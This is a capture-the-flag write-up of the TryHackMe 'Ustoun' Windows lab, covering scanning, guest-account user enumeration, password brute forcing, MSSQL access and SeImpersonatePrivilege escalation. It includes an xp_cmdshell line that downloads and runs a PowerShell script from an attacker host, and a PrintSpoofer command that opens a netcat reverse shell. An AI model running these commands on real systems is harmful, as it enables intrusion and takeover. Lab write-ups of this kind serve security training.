# USTOUN TryHackMe Writeup
### Level: `Medium` | OS: `Windows`



## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.



Then, knowing the ports, we will launch an nmap with scripts and versions.




## Enumeration
We test if we can authenticate with an anonymous user, we see that we cannot.



Another test that I usually do in real environments, is to test with the *"guest"* user, which is usually enabled by default. As you can see in the evidence, we can use it to get the users by their **RID**.



We create a list of the most relevant users obtained and brute force the *"rockyou"* dictionary. We will get some credentials.




## Exploitation
After several tests in different services, we found that the credentials are functional in the *"Microsoft SQL Server"* service, from here we will be able to load a reverse shell.



```powershell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.11.30.149:8000/m3.ps1\")
```

#### Reverse shell connection



## Privilege Escalation
We tried to read the user flag, but we do not have access. We check the user's privileges and see that we could escalate by impersonating the user **"Administrator"** using **"SeImpersonatePrivilege"**.



We identify the exact version of Windows installed.



We download the **PrintSpoofer** exploit from this [github](https://github.com/itm4n/PrintSpoofer), we also download **netcat** to the victim machine and run the following command putting a listening **netcat** on our Kali.

```
.\PrintSpoofer.exe -c "C:\users\SVC-Kerb.DC01\Videos\nc.exe 10.11.30.149 444 -e cmd"
```



#### Reverse shell as Administrator



And now we read the two flags.

#### User flag



#### Administrator flag



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
